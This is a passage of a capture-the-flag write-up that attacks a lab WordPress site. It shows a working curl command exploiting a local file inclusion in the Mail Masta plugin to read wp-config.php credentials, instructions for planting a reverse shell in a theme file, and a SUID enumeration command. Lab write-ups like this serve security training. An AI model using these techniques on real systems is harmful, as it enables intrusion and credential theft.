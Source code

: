 We can try PHP filters on the LFI:

{% code overflow="wrap" lineNumbers="true" %}
```bash
curl http://10.10.123.230/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php

# outputs.
[..redacted..]5kIGluY2x1ZGVkIGZpbGVzLiAqLw0KcmVxdWlyZV9vbmNlIEFCU1BBVEggLiAnd3Atc2V0dGluZ3MucGhwJzsNCg==

# decode the base64 and gete the db creds, which are also the wordpress login creds.
echo '[..redacted..]5kIGluY2x1ZGVkIGZpbGVzLiAqLw0KcmVxdWlyZV9vbmNlIEFCU1BBVEggLiAnd3Atc2V0dGluZ3MucGhwJzsNCg==` | base64 -d

# outputs..
/** MySQL database username */
define( 'DB_USER', 'elyana' );

/** MySQL database password */
define( 'DB_PASSWORD', 'PASSWORD' );
```
{% endcode %}

After login to the wordpress dashboard, goto "Appearance tab", "Theme Editor", then select the "404.php" and replace the php code with nishang reverse shell. Setup a nc listener to catch the shell.

<figure><img src=".gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

And we got a shell.

## Priv Esc

### Method 1

Finding SUID binaries..

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
find / -user root -perm -4000 -exec ls -l {} \; 2>/dev/null

# outputs
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/chmod
-rwsr-sr-x 1 root root 400624 Apr  4  2018 /usr/bin/socat
```
{% endcode %}
